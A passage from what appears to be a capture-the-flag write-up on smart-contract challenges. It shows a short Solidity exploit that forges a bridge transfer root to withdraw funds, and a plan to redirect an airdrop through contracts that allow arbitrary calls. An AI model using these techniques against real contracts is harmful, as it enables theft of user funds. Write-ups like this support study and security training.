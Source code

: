 ```javascript
    console.log("solved? %s", chal.isSolved());
}
```
```javascript
function kick(bytes32 rootHash, uint256 chainId, uint256 totalAmount, address bridge, address recipient) public {     
    IBridge(bridge).bondTransferRoot(rootHash, 1, totalAmount);     
    IBridge(bridge).withdraw(recipient, totalAmount, bytes32(0), 0,0,0,rootHash,totalAmount,0,sibs,1);
}  
```

This chal was fun, I looked at hop code sometime last year so it was cool to revisit it :)

## Free Real Estate

This was a koth (King of the Hill) challenge, meaning that the total points is split according to how well you score in the challenge. In this case, there was an airdrop and the score was dependent on how many tokens you could grab:

```javascript
function getScore() external view returns (uint256) {
    return IERC20(MERKLE_DISTRIBUTOR.token()).balanceOf(address(this)) / 1 ether;
}
```
The airdrop details were as follows:

```javascript
The INU airdrop follows rules similar to the original UNI airdrop:

1. Reward 10,000 INU to each eligible address that redeemed SOCKS or holds SOCKS
2. Reward 400 INU to each eligible address that has performed a swap on Uniswap 1, 2, or 3
3. Reward Uniswap LPs as follows:
    i. allocate 50M + 50M + 50M INU to LPs of Uniswap 1 / 2 / 3
    ii. distribute rewards across pools pro rata based on number of historical swaps per pool
    iii. within each pool, distribute rewards to eligible LPs pro rata based on the total amount minted by each LP

Only a subset of addresses are eligible:
- must not be an EOA
- must not be a Gnosis Safe

This results in a total allocation of 214M INU across 146K eligible addresses.
```
Immediately after reading the criteria, there were a few contracts that came to mind such as the Uniswap universal router, multicall, bentobox, etc. These contracts allow users to either sweep tokens or perform arbitrary calls, which could be used to send the tokens to the challenge contract. I also figured I could look through arbitrary call exploit contracts. However, there as 146k addresses and merkle proofs to search through. I didn't feel like figuring out the bash-fu to do it myself, so I recruited chatGPT which came out with a way for me to extract what I need given an address:

```bash
$ cat airdrop-merkle-proofs.json | jq -r '.claims' | jq -r 'to_entries[] | select(.key | contains("00000000000003441d59DdE9A90BFfb1CD3fABf1"))'
{
  "key": "0x00000000000003441d59DdE9A90BFfb1CD3fABf1",
  "value": {
    "index": 2,
    "amount": "0x15af1d78b58c400000",
    "proof": [
      "0x17813d76ac9c52a461d9f52dec5f879a764939b9d6b5f98ca7a778e6957e3bd4",
      "0x66d18930fce82e15b5ec32021b091f02d90cc5dfff4cb955651cb39ac0ffefca",
      ...
      "0x05d87b90d16d65eca608285be05f09d6be06ed26e996e2b0f51b3aa33aaa78eb",
      "0xc61672b51620329157c09e93120384c7e539511991bb6ef9fc37f570f220f2f9"
    ]
```
